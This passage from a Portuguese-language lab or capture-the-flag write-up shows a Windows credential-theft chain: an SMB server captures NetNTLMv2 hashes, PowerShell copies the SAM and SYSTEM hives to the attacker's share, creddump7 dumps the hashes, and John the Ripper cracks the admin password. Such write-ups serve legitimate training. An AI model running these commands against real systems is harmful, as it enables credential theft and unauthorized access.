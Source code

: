 ```bash
[*] User WIN-QBA94KB3IOF\user authenticated successfully
[*] user::WIN-QBA94KB3IOF:aaaaaaaaaaaaaaaa:595374223e37ada83202e66d29231102:0101000000000000800e45985446d901c95db7d56399bc450000000001001000770062006b007600530064005600790003001000770062006b0076005300640056007900020010006c0050007900730074004f006b004d00040010006c0050007900730074004f006b004d0007000800800e45985446d9010600040002000000080030003000000000000000000000000020000036a975d756f9a0bf750cfdc69c5b9331eb8a57715e675a18973ee713ed4d04fc0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310038002e00320030002e0032003300000000000000000000000000
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:KALI)
[*] Closing down connection (10.10.5.221,49838)
[*] Remaining connections []
[*] Incoming connection (10.10.5.221,49841)
[*] AUTHENTICATE_MESSAGE (WIN-QBA94KB3IOF\user,WIN-QBA94KB3IOF)
[*] User WIN-QBA94KB3IOF\user authenticated successfully
[*] user::WIN-QBA94KB3IOF:aaaaaaaaaaaaaaaa:f2a1925824c68fef1094207d6ab440f5:010100000000000080de57ab5446d901a59fbc1f723a0d550000000001001000770062006b007600530064005600790003001000770062006b0076005300640056007900020010006c0050007900730074004f006b004d00040010006c0050007900730074004f006b004d000700080080de57ab5446d9010600040002000000080030003000000000000000000000000020000036a975d756f9a0bf750cfdc69c5b9331eb8a57715e675a18973ee713ed4d04fc0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310038002e00320030002e0032003300000000000000000000000000
[*] Disconnecting Share(1:KALI)
[*] Closing down connection (10.10.5.221,49841)
[*] Remaining connections []
```

e na maquina alvo vamos utilizar os seguinte comandos:

```powershell
PS C:\Users\user\Desktop> copy C:\Windows\Repair\SAM \\10.18.20.23\kali\
PS C:\Users\user\Desktop> copy C:\Windows\Repair\SYSTEM \\10.18.20.23\kali\
```

Agora vamos utulizar uma ferramenta chamada `creddump7` para extrair os hashes.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         22:00:47
╰──➤ python3 /usr/share/creddump7/pwdump.py SYSTEM SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
```

Vamos usar o `johntheripper` para quebrar a senha do usuário `admin`.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         22:01:11
╰──➤ echo admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da::: > hash.txt

╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         22:02:58
╰──➤ cat hash.txt
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::

╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         22:03:02
╰──➤ john --format=NT hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (admin)
```